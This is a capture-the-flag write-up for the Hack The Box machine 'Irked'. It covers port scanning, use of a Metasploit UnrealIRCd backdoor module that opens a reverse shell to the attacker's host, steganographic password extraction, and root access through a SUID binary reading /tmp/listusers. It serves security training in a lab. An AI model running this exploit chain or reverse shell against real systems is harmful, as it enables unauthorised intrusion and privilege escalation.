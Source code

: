 ```yaml
---
title: 'Hack The Box - Writeup'
subtitle: 'Irked'
author: 'Patrick Hener'
date: \today{}
documentclass: scrartcl
pandoc-latex-color:
  - classes: [command]
    color: blue
---
```

<!-- Latex foo -->
\renewcommand*\contentsname{Table of Content}
\pagebreak
\tableofcontents
\pagebreak
<!-- Latex foo ends -->

# Recon

## nmap

```sh
Discovered open port 80/tcp on 10.10.10.117
Discovered open port 111/tcp on 10.10.10.117
Discovered open port 22/tcp on 10.10.10.117
Discovered open port 56305/tcp on 10.10.10.117
Discovered open port 8067/tcp on 10.10.10.117
Discovered open port 65534/tcp on 10.10.10.117
Discovered open port 6697/tcp on 10.10.10.117
```

### Results of nmap with service scan

| Port    | Status | Service              |
| :---    | :---:  | ---:                 |
| 22/tcp  | open   | OpenSSH 6.7p1 Debian |
| 80/tcp  | open   | Apache 2.4.10        |
| 111/tcp | open   | rpcbind              |
| 6697    | open   | UnrealIRCd           |
| 8067    | open   | UnrealIRCd           |
| 56305   | open   | RPC                  |
| 65534   | open   | UnrealIRCd           |

# Initial Foothold - Get user.txt

I didn't bother enumerating the web service after looking at the page. A hint was given to look at irc daemon.
So I searched Exploit-DB for a exploit and found a metasploit module.

After using it you will gain a shell as user `ircd`.

```sh
Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  10.10.10.117     yes       The target address
   RPORT  6697             yes       The target port (TCP)


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

msf exploit(unix/irc/unreal_ircd_3281_backdoor) > run

[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] 10.10.10.117:6697 - Connected to 10.10.10.117:6697...
    :irked.htb NOTICE AUTH :*** Looking up your hostname...
[*] 10.10.10.117:6697 - Sending backdoor command...
[*] Command shell session 1 opened (10.10.14.2:4444 -> 10.10.10.117:38042) at 2018-11-21 12:19:02 +0100

id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
```

In the users directory you'll find a secret backup file which says

```
cat /home/djmardov/Documents/.backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

The password does not work directly with ssh.

So the hint is it might be hidden somewhere. Let's use `steghide` on the image we found on port 80.

```sh
steghide --extract -sf irked.jpg 
Enter passphrase: 
wrote extracted data to "pass.txt".
cat pass.txt
Kab6h+m+bbp2J:HG
```

Well will you look at that! SSH incoming!

Well and sure enough:

```sh
djmardov@irked:~/Documents$ cat user.txt 
4a66a78b12dc0e661a59d3f5c0267a8e
djmardov@irked:~/Documents$
```

# Priv Esc - Get root.txt

Looking around the machine you will notice a SUID binary named `viewuser`.

Executing it you will get that this is still under development and needs to read from /tmp/listusers.

Then create a file /tmp/listusers with the content `cat /root/root.txt`. Give it permissions 777.

Finally execute the binary and you will get the flag.

```
djmardov@irked:/usr/bin$ ./viewuser 
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2018-11-20 10:46 (:0)
djmardov pts/2        2018-11-21 06:50 (10.10.14.2)
8d8e9e8be64654b6dccc3bff4522daf3
```

You might wanna upgrade to a shell or just take the quick win.

